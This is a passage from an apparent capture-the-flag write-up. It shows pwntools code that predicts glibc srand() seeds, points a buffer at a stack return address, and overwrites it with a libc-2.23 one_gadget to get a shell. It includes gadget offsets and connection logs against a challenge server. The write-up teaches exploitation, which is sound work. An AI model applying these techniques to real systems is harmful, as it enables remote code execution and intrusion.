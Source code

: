 Next, we'll need to modify `buf` to point to a return pointer on the stack. Continuing from the `srand()` prediction system hashed out earlier, we'll do a few calculations to adjust `buf` by Round 3:
```python
# step 2: set .bss[buf] to point to stack_ret
randints = [Round(1,1), Round(1,1)]
from pickle import load
log.info('LOADING SEED DICT')
with open("srand_dict.pickle", 'rb') as f: seed_dict = load(f)
seeds = seed_dict[tuple(randints)]
assert len(seeds) == 1  # Unlikely but possible
seed = seeds[0]
log.info('seed found! %d' % seed)
from ctypes import CDLL
glibc = CDLL('./libc-2.23.so')
glibc.srand(seed)
for _ in range(2*2): glibc.rand() # run through the already-used seeds

# step 3: with rand() handled, we can adjust buf[].
lucky_num = glibc.rand()
diff = stack_ret-show_money()-glibc.rand() # diff is guaranteed to be greatly positive,
#### because stack pointers (0x7ff[0-9a-f]{9}) >> heap pointers (0x5[0-9a-f]{11})
Round(diff, lucky_num)
log.info('money (which is buf!): ' + hex(show_money()))
```
You'll get this:
```python
[+] Opening connection to 192.46.228.70 on port 32337: Done
[*] PIE: 0x556385c1c000
[*] Libc:0x7f9627801000
[*] Stack return addr: 0x7ffeb86d7a08
[*] LOADING SEED DICT
[*] seed found! 15904512
[*] money (which is buf!): 0x7ffeb86d7a08
```
You can't really tell whether or not `buf` is pointing to the right location at this point, so we'll need to put it to the test.

Because we're using `libc-2.23.so` here, there are a lot of really good `one_gadgets` available:
```python
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
The first one Just Works :tm:, so there's actually no need for ROP at all here:
```python
# step 4: overwrite ret with a one_gadget.
r.sendlineafter('(= 0 to exit): ', '0')
r.sendafter('back: ', pack(context.libc.select_gadget(0)))
r.interactive()
```
Solved.
```sh
[+] Opening connection to 192.46.228.70 on port 32337: Done
[*] PIE: 0x55c1acad6000
```